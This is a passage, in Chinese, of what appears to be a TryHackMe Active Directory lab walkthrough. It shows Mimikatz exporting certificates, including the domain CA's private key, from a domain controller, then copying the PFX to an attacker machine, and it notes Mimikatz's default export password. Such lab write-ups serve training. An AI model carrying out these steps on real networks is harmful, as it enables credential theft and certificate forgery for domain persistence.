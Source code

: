 如果出现错误，不要担心，这意味着有人在你之前执行了这个补丁。有了这些服务的修补，我们可以使用 Mimikatz 来导出证书：

```shell title="Mimikatz Terminal"
mimikatz # crypto::certificates /systemstore:local_machine /export
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b (CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ;)
        Exportable key : NO
[....]
```

导出的证书将以 PFX 和 DER 格式存储到磁盘上：

```shell title="Terminal"
za\administrator@THMDC C:\Users\Administrator.ZA\am0>dir
 Volume in drive C is Windows
 Volume Serial Number is 1634-22A9

 Directory of C:\Tools\x64

05/10/2022  12:12 PM    <DIR>          .
05/10/2022  12:12 PM    <DIR>          ..
05/10/2022  12:12 PM             1,423 local_machine_My_0_.der
05/10/2022  12:12 PM             3,299 local_machine_My_0_.pfx
05/10/2022  12:12 PM               939 local_machine_My_1_za-THMDC-CA.der
05/10/2022  12:12 PM             2,685 local_machine_My_1_za-THMDC-CA.pfx
05/10/2022  12:12 PM             1,534 local_machine_My_2_THMDC.za.tryhackme.loc.der
05/10/2022  12:12 PM             3,380 local_machine_My_2_THMDC.za.tryhackme.loc.pfx
05/10/2022  12:12 PM             1,465 local_machine_My_3_.der
05/10/2022  12:12 PM             3,321 local_machine_My_3_.pfx
```

`za-THMDC-CA.pfx` 证书是我们特别感兴趣的证书。为了导出私钥，必须使用密码对证书进行加密。默认情况下，Mimikatz 分配的密码是 `mimikatz` 。使用 SCP 下载或复制此证书到你的 AttackBox，然后将其复制到 THMWRK1 上低权限用户的主目录中。如果你更喜欢，也可以在你自己的非域加入的 Windows 机器上执行剩余的步骤。
